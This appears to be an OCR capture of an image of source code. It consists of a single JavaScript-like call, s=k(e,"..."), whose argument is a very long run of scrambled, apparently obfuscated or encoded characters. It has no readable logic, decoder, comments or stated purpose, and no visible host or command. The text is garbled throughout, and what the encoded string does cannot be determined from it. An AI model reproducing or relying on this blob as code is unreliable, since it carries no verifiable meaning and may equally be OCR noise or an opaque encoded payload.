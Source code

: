 s=k(e,"S*.0lEkv{citR6=ZcvKi{Z*lcR.vi0.{i6vE.ki{0Ttc0=tEliRv=.v6=ck=Z0REkRZ*vE6ZvkZcviZ0cc*Rc{..i?0*{t0*t*0ktRlii.Ei6Zk.v{XvvZ#l{ck6y0k.ZRchZYv6.c{c.{tkf={R6.Ei6cE==0t{EZ6tki=tkZ{c**c1*EcikRwEct*vi**6lsR{lvRRE**iRdE0RiER=0Zv{.Z={0A{=wv6*u0RZkck*tcE.v06RvllRcl=*cRvE.6LEtR6Ei=lZ=tv(E{iIZ={{*YvckR{c0*ti0.*k*06iRl0vEli6*E066E06kkR=.kkiv{0Zi{iV0luZ.cc*=i.xRi0.kk{.0{EZvt=Ei{k0*6EEc6Zv*=EvEt*lR6*Ek6t.itE0*tk0tH*ic.=c*lcR6E.6.EkvTTrvvZR{*EkZl{.Zk{=olllZZcv*Zil*=ic.RlZ6{Ek6tkH0{RZE.={k{Zr0E{t*0c.*vcRkt*tcc*vi**Zl.6.lcR=E0.t6*l06ck(6kk{ctlcZ{vkZJ{.Z6.*t..{i60.CRii.Eit06Rv0kR=ll6k&ct*ER=Rvk{E*E{R**ckk**.cl.lcl..Ec*liR0ltc00t=l*klZ*ktZYvElv={k{=6viZ{0{Z*c**=citll0ttlfREcv0JttlktZx0t=Ek6=k066k{=t*{co*Eci0kil.ci=0kRM06R.lv*lRkl0tRl=6lE060Zl0{Z9#t.{lv**kZEtil0*it0?tE{k.=iv.iti.0Rl0=6tlR6=ZlviZt{/NE!*vsZ6{6c=*E0kRit0vkvGk{NkltR:Zv{cvZc*0={.00Z{v6).{v7Rc**kct.Qi{.6iZ0ltciR.{tZR6iZk.v.{*c0N/=60Ev6zE{l7c{=EtZ6v=y=ct*l0ltZ0tRulEI6tv0ERt0ZRkER6.klvvZR{*2k{t*3cE-i6=.lk{.90tE{vvl*cZyt6lEi6tkF=E6*EC=*E={*Oi{{y6c.kv_{{.*ZcX..i{t6lERllcR=ck*=RZl06lE*v*cr*lcc*=i0.{R66{*=ktRRkc**=it*i={ERtiiXvvitZ00^Z=00*v{RZRctkittR.iE*6=.Evz6.cR*{l..=0i^t6Ekv6Rk*=kt0kE=.Et=6v0Z.v.=E{vYRckZv{6.0iittK.*Rt0=ZikZ{R*i*k{=6v.ZvvR._{kNtcw.vZ0*Zil.ctR00t{06=.EZRRE*6kEt=Fvl=i{ZPivcZ={0D{{6*Ecv0RtE.kit0atE0iRill=ckk60E{66k.=v{.Z*{{ZR{!wk{i*Zcl*cc=l0t0.6t00vt6l*R=lt=.vR6ik*=lkZ==v0Z{{Z*t{v:Zc**tct.;iE0RtZ0lt60=RRl{R6E.=ck==*kt=t{.ZEviZZck.l{=*cc{0li..viRl0RR0tRvlERRlZ6lEcZ9k{={vEZ.{tZR{*ukc6lvcE.0cZ0nic.=t0liZll.6*lR=lEk6tkrZv{6=ZvZZc{t_0{{N6il.kcR.6ikl5t20EtiE*=*lc6tE0=iE6=.kv=R{.ZkvRAXc.9ic**lic.ki0.{i6l.tv06R*E{RRE86EEi=0kl=ck=&Ev6Z6{0Qvc6**ck*ti(0kii.Ztl0tt=llR{EZaEEv6Rk*ZlktZBvE*i{0Yl{cC=c0*{iR..Rv0ct*0kttlbREl6RZvl=RE==0k{=6v.5.vR.*cl}tcJ*Eci*ZiE.c6=llt{06R.E*RRE{6kEt=6kE=ikZZEvcZ={0*t{6*.cv*ZiR.kit0sO*ic..iE0Ec=0ZtcEkRvEckR{tzZcl*cc=.0R{60*RiE.0i{.6W.i0*6ti.tt6l0EEkEt6l6.c6=i.RE0RK.f.*6{.*E*0=*t=kiiZtZ*viv{00{ZR*Z*kER0Et{*.*%tktRiZRlWRc**0c{*6*Y{R.00*66lRi*il.=6Ek.cc=*kv={k6Z.6=E6==kt{=.NcE*icZkR*=ct*lik.Rit.tc=lLRElZt5lk6Rk0vvZ6v=V0{{{lZ0{g* .liR.tt#0EZ6{E0kii0tt{6{*tiklERtcZ*=kitZ{{*.{Z*lcckk*{cE5=if.kiE.Elc6*E?6EEi.vRcli6ikv=(Z6{.}v{R**ck*ti^.Eii.Ztl0ct=l0R{06**Ei=Ek*=kkt0066EtZ*kE=R{.Z{{ic6..iv.Rt*EEttlFREER.{El6cE==6k{=6v.*v{ta*{kutcB*Ec6*ZRl06i=00t{06R.l{RRv*66Et=fkE=ikZXvvc*={Rs{{6*.cv*RiR.kt60ltE0ttZE*Rcl=60v{Zkk.={kRZ.vkI0{F*vt*>Zck*civ.0i{.6Rll*tRllRkEp6XEE6iv*Z*kcZ.v0ZZv65.{v*=i=*kiV.nt0.iiZ0lRtE{R0l=R6k06vER=*v{ZtvgZRviK0{l?c{=.Ect*6ii.vt60*tk0t6.vRRiE{6lkt6=k0={vZ.cvv(k{**v{t*pcE.RR..ltl.=tc0{t6l.6cl=6*k.6tv*=Eki=Z{k*lv=*C{{*tc.*vcR.*tc.tt*0ERv0ZRklc6=ER6{E6=.vl=Rv.Zk{6QZ{Edi{Z.zcc*=i00itt0.t{0RR0lkRtEr6Ekt6Zkl=cv4Z0vcZ6cl0i{R**ck.EiB.EiilZt60ct=l0R{l66EEvZRkE=kktZKvEZi{G7lic.Ec0*{c6..iv0Zt*EkRclaREliRZEl={E=*0kc=6v.Zv{R4*cvCtcJ*kci*Zil.ii=00t{ElR.lvRRE*v}ZlvcZ={01{i6t{Z={0j{{6*.cv*Ri*.kiti6R=Z.t=k6c==Z*.E{l..c.6{Rcv{.i=R) {{=eZcl*c9E{l*Ec.tElvtRl*Rkc0lER.0tR6E06.E.REkv=Rvk6vk6:0{ic=.{iE.iiZvR.=it.ltk0Rtt0tEZ=lkk=tv8k06Zvk{lRZ=vivcvl6vvR{=t0ltZ0tRFlE(6tv0ERt0ZRkER6.klvvEvZtZ0{i*vc2ucE=.la.0{{E0vtR**Rt{t6lER6tkL=Et.El6EkEZ.kt{{*t=ll*ER*RiE0=v&0Ekt*R!*{c=El=E=c6=Ek==Rv*ZkRtkR=k{0Zl{k R.*iv.{i60..=c6.itiRttv.tEl6=k0*lv.t.v{il.=v0RR**ck tEZ.{tE.Ztl0cBit..ti=0=ivl{R.EZ69k.v{u3vZ)l{cE*6c{iZ={ZPR.R*{{RtE0ZRlvE60c06ctcE6EE=RvcZ.ktlj{k,tc^*Eci0=il.ci=lE**06R.lv6*E*6kEt#LkR=ikZZlvcZ=c0F{i6.0cv*Ri*.kitlltEEiR*llRcl=60E{=vk.yv{vZ*vkZt{ LEc+bZik.ic=.li{l.t.0vtRk*R6lt6*EE6tEZ=Rkc3BciZ{vZ?.{tBRc**ki6.*iE.6iZl.tc0=R0Ei6cE.6tERZ9kk=tvBsvv6ZZ{cNcc**0c{*6tll0iR0vtkE.RPlERik*={Ec=Ek0Z=k6Z.vvw={{)kc0*biv*icZ.lttkEt0l*t6l=RvlR6*k{*.k2=Zki^.vlZcv=*Eitz6c6*viv.*ik.tR.lZtiltRlE.R=E06{kZZ{kvZcv*a.vt4;{EYic.*lci*=tN.{iZ0.Rvl;R*lkRtkE6EEt6ZvkZZk=Z0v{n={.xv{R.0cv*ti*.Eit.Ztl0ct=ElR{l66.Ec6Rk.=kv6.0vEZivZ^c{cu=c00{i0..iv.Rt*0kRtlx=Ek*RZEl6cE==0vR=6c.*lvR5*{kGtc1*Zci0Zic.ci=00t{06RclvZRkl6kEt=Vv.=iv*Zlvc3B{0J{{6*0cv*Ri*06it0etE0i6Z+Z.6R=*5c{l..g=ikZZ*vkZt==kia*GZcl*cc=.0l{Z.vWZvtR*i6tklE-*Z0=6vi.kRZkv0Z{v6liZRvcZ.{lxi{czc.iZ0ZnRn{F{kEkl{c!6ikE=*kk=tt0E66tv*=EkRw.v{yi*6ck.iiiZ*vgRl{c{lRi=ck6Z.vvZR{*.k0*vvE.qRZ6{iEtZ17cE=.vtc.=t00{7Etv0li60ZREllRl0v6cE=={lc6ZvEZRm6c.*vcR.*ik.tiCvlt6l0RllcR=Ri0cRkEkkvk{l=z.Zt6t.0vcl6*l=Zicci.vZ{{6ikvtRllRRtE:6Ei.llREEE=.EtvtI{{.!v{RE6AEv=?*c*Zict*Et..0tER{l66.Ev6Rk*=kktZBvEZ.l.60){c60.{ZE6.Ei=.Rt*0k8tiR.kR00lRklRE=0lccttE*{t.EtkRky=ck*Eci*Z=vkZ.&cl.Ei.REltRRE*6kR.l*6.lZkZZlvcZ={0.v{6*.cv.=Zi.kit0_RR0itZll=cE660E{66k.=v{